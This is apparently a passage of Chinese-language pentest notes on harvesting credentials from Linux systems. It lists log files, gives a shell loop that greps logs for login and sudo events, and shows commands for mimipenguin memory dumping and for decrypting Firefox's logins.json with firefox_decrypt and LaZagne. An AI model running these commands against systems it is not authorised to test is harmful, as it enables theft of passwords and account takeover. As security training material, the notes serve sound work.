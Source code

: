 #### 2. 日志

| 日志文件                | 描述                           |
| ------------------- | ---------------------------- |
| /var/log/messages   | 通用系统活动日志。                    |
| /var/log/syslog     | 通用系统活动日志。                    |
| /var/log/auth.log   | (Debian) 所有与身份验证相关的日志。       |
| /var/log/secure     | (RedHat/CentOS) 所有身份验证相关的日志。 |
| /var/log/boot.log   | 引导信息。                        |
| /var/log/dmesg      | 硬件和驱动程序相关信息和日志。              |
| /var/log/kern.log   | 内核相关的警告、错误和日志。               |
| /var/log/faillog    | 登录尝试失败。                      |
| /var/log/cron       | 与 cron 作业相关的信息。              |
| /var/log/mail.log   | 所有与邮件服务器相关的日志。               |
| /var/log/httpd      | 所有与 Apache 相关的日志。            |
| /var/log/mysqld.log | 所有 MySQL 服务器相关的日志。           |

```shell
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

#### 3. 内存和缓存

> 许多应用程序和进程使用身份验证所需的凭据并将其存储在内存或文件中，

1.  mimipenguin --> [Github 官网](https://github.com/huntergregal/mimipenguin)

    ```shell
    sudo python3 mimipenguin.py
    sudo bash mimipenguin.sh 
    ```
2. LaZagne

#### 4. Firefox 浏览器

> 当我们在 Firefox 浏览器中存储网页的凭据时，它们会被加密并存储在`logins.json`系统中 ， 使用的工具： firefox\_decrypt --> [Github](https://github.com/unode/firefox\_decrypt)

```shell
# 列出 Firefox 存储的凭据
ls -l .mozilla/firefox/ | grep default 
# 查看存储凭据
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
# 解密 Firefox 凭据
python3.9 firefox_decrypt.py
# 使用 LaZagne
python3 laZagne.py browsers
```
